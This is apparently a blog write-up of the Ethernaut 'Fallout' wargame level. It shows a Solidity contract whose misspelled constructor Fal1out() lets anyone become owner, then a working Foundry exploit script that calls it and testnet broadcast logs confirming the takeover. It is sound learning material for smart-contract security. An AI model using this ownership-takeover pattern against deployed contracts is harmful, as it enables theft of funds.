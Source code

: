 ```yaml
---
layout: post
title: "[Ethernaut] Fallout"
tags: blockchain ethernaut foundry
---
```


# Analysis

---
The goal is

1. Claim ownership of the contract below

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Fallout {
    using SafeMath for uint256;

    mapping(address => uint256) allocations;
    address payable public owner;

    /* constructor */
    function Fal1out() public payable {
        owner = msg.sender;
        allocations[owner] = msg.value;
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function allocate() public payable {
        allocations[msg.sender] = allocations[msg.sender].add(msg.value);
    }

    function sendAllocation(address payable allocator) public {
        require(allocations[allocator] > 0);
        allocator.transfer(allocations[allocator]);
    }

    function collectAllocations() public onlyOwner {
        msg.sender.transfer(address(this).balance);
    }

    function allocatorBalance(address allocator) public view returns (uint256) {
        return allocations[allocator];
    }
}
```

[Solidity 0.6.0 Documentation - constructors](https://docs.soliditylang.org/en/v0.6.0/contracts.html#constructors)

<aside>
💡

Prior to version 0.4.22, constructors were defined as functions with the same name as the contract. This syntax was deprecated and is not allowed anymore in version 0.5.0.

</aside>

For some reason, the intended `constructor` code was written as `Fal1out()`, preventing it from acting as a `constructor` and allowing external access, which enables claiming `owner`.

# Exploit

---

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "../src/Fallout.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

contract FallbackSol is Script {
    Fallout public fallout_ = Fallout(0x28eA66cBFb2900Bea8bb84f058d740ce0Ab751CB);

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

        fallout_.Fal1out();
        console.log("Contract owner: ", fallout_.owner());

        vm.stopBroadcast();
    }
}
```

```bash
$ forge script script/FalloutSol.sol --broadcast
[⠊] Compiling...
No files changed, compilation skipped
Script ran successfully.

== Logs ==
  Contract owner:  0x6f5Ad1E6F1a624E4Ad37f0B7D6f100ab1Db29514

## Setting up 1 EVM.

==========================

Chain 17000

Estimated gas price: 0.002095526 gwei

Estimated total gas used for script: 62992

Estimated amount required: 0.000000132001373792 ETH

==========================

##### holesky
✅  [Success] Hash: 0xcaa845bc5fa9ebb3adcb5902c12ffa24c14a609adc31cd0b789bfae23b11c5aa
Block: 3669787
Paid: 0.000000095568239514 ETH (45606 gas * 0.002095519 gwei)

✅ Sequence #1 on holesky | Total Paid: 0.000000095568239514 ETH (45606 gas * avg 0.002095519 gwei)

==========================

ONCHAIN EXECUTION COMPLETE & SUCCESSFUL.
```

![Image complete]({{site.url}}/images/2025-04-17-Fallback/complete.png)